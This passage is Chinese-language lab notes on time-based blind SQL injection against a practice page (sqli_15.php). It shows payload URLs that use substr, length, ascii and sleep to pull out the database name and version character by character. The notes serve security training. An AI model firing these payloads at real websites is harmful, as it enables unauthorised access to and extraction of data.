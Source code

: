 - 数据库名字的第一个字母获取 

  - http://xforburp.com/sqli_15.php?title=World War Z' and substr(database(),1,1)='a' and sleep(2) -- &action=search
  - http://xforburp.com/sqli_15.php?title=World War Z' and substr(database(),1,1)='b' and sleep(2) -- &action=search
  - 通过一个一个的比对，确定数据库名字第一个字母是什么

- 数据库版本名称长度获取 

  - http://xforburp.com/sqli_15.php?title=World War Z' and length(version())=5 and sleep(2) -- &action=search
  - http://xforburp.com/sqli_15.php?title=World War Z' and length(version())=23 and sleep(2) -- &action=search

- 实际情况

  - 在实际情况中，版本名称不仅只有字母也可能有其他特殊字符，一个一个尝试终究是有遗漏
    的，而且手工输入时间耗时较久，需要通过程序解决。 

- ASCII表 

  ![1617177603495](HackerMeWeb.assets/1617177603495.png)

- 使用ASCII编码的方式测试

  - http://xforburp.com/sqli_15.php?title=World War Z' and ascii(substr(database(),1,1))=98 and sleep(2) -- &action=search
